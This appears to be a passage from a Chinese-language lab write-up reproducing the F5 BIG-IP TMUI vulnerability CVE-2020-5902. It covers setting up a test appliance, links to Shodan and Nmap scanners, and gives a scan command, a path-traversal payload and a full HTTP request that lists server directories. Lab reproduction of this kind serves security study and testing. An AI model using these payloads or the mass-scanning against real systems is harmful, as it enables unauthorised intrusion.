 使用密码root/default登陆系统，第一次需要重置root密码，新密码为bigippass
![4](4.png)


配置网卡信息，输入config，配置ip地址
![5](5.png)


浏览器访问`https://192.168.1.245`，跳转如下图就说明好啦！



![6](6.png)

使用admin/bigippass登录

![7](7.png)

## 漏洞检测

 ### Shodan批量扫描脚本

```
https://github.com/aqhmal/CVE-2020-5902-Scanner
```

 ### Nmap扫描脚本

```
https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve2020-5902.nse
poc:nmap --script http-vuln-cve2020-5902 -p443 192.168.1.245
```

![8](8.png)

## 漏洞复现

### 目录遍历

> Payload

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/
```

 > Request

```http
GET /tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=65ACC6C79B31335D71E4F432DB39EA50
Connection: close
Upgrade-Insecure-Requests: 1
```
